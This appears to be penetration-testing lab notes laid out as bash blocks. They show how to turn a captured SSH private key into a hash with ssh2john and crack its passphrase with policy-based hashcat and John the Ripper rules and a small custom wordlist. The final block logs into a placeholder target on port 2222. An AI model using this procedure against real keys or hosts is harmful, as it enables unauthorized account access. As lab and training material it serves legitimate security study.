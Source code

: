 **Extract and Format**
```bash
# Convert private key to hash
ssh2john id_rsa > ssh.hash

# Remove filename prefix
sed -i 's/^[^:]*://' ssh.hash

# Determine mode ($6$ = mode 22921)
hashcat -h | grep -i "ssh"
```

**Create Targeted Rules**
```bash
# Based on password policy: 3 numbers, capital letter, special character
cat > ssh.rule << EOF
c $1 $3 $7 $!
c $1 $3 $7 $@  
c $1 $3 $7 $#
EOF

# Create custom wordlist from intelligence
cat > ssh.passwords << EOF
window
dave
superdave
umbrella
EOF
```

**Handle Tool Limitations**
```bash
# If Hashcat fails with "Token length exception"
# Use John the Ripper instead

# Add rules to John configuration
cat >> /etc/john/john.conf << EOF
[List.Rules:sshRules]
c $1 $3 $7 $!
c $1 $3 $7 $@
c $1 $3 $7 $#
EOF

# Crack with John
john --wordlist=ssh.passwords --rules=sshRules ssh.hash
```

**Use Cracked Passphrase**
```bash
# Set correct permissions
chmod 600 id_rsa

# Connect with private key
ssh -i id_rsa -p 2222 user@target_ip
# Enter passphrase when prompted
```
